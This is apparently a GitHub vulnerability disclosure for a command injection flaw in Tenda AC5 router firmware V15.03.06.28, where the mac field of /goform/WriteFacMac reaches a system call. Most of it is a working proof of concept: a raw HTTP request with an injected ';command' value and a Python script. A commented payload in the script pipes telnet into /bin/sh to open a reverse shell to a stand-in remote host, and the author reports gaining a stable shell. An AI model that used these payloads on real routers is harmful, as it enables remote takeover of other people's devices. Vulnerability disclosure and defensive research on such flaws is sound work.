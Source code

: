 ## Basic Information

Vendor:Tenda (https://www.tenda.com.cn/default.html)

product:AC5(https://www.tenda.com.cn/product/AC5.html)

version:V15.03.06.28(https://www.tenda.com.cn/download/detail-2740.html) 

type:Arbitrary Remote Command Execution 

author:yanbushuang

## Vulnerability description and trigger location

I found an Arbitrary Command Execution vulnerability in the router's web server-- /bin/httpd of squashfs filesystem. While processing the mac parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below:

![image1](https://github.com/yanbushuang/CVE/blob/main/image-1.png)


![image2](https://github.com/yanbushuang/CVE/blob/main/image-2.png)

## POC(EXP):
```
### Burpsuite：

POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.0.1（You Tenda AC5 Router IP or remote ip）
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=You cookie
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
mac = ;command


### python request/pwn：

import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC5 Router IP or remote ip
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet remote_ip remote_port1 | /bin/sh | telnet remote_ip remote_port2"

cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")

```

## Attack demonstration：

Use the above POC to play shell through telnet You can get a very stable shell 


![image3](https://github.com/yanbushuang/CVE/blob/main/image-3.png)


![image4](https://github.com/yanbushuang/CVE/blob/main/image-4.png)

Over~
